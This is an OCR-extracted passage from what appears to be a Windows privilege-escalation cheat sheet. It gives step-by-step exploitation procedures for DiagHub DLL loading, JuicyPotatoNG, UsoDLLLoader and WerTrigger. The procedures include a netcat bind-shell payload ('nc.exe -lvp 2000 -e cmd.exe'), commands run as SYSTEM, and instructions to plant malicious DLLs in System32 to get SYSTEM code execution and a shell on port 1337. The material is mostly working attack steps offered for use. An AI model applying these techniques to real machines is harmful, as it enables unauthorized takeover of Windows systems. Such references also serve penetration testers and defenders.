 **3. diaghub.exe c:\ProgramData\ payload.dll**

**The default payload will run C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -**

e cmd.exe

**Alternative tools:**

```
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami" > C:\juicypotatong.txt
```

**https://tinyurl.com/2b7rwrc6**

**https://tinyurl.com/2dfj95aj**

#### UsoDLLLoader

**:warning: 2020-06-06 Update: this trick no longer works on the latest builds of Windows 10**

**Insider Preview.**

**An alternative to the DiagHub DLL loading "exploit" found by James Forshaw (a.k.a.**

**@tiraniddo)**

**If we found a privileged file write vulnerability in Windows or in some third-party software, we**

**could copy our own version of windowscoredeviceinfo.dll into C:\Windows\Sytem32\ and**

**then have it loaded by the USO service to get arbitrary code execution as NT**

**AUTHORITY\System.**

**Exploit**

**1. Build https://tinyurl.com/29rz3v7r**

**Select Release config and x64 architecure.**

**Build solution.**

**DLL .\x64\Release\WindowsCoreDeviceInfo.dll**

**Loader .\x64\Release\UsoDllLoader.exe.**

**2. Copy WindowsCoreDeviceInfo.dll to C:\Windows\System32\\**

**3. Use the loader and wait for the shell or run usoclient StartInteractiveScan and**

**connect to the bind shell on port 1337.**

#### WerTrigger

**Exploit Privileged File Writes bugs with Windows Problem Reporting**

**1. Clone https://tinyurl.com/269v4hov**

**2. Copy phoneinfo.dll to C:\Windows\System32\\**

**3. Place Report.wer file and WerTrigger.exe in a same directory.**

**4. Then, run WerTrigger.exe.**
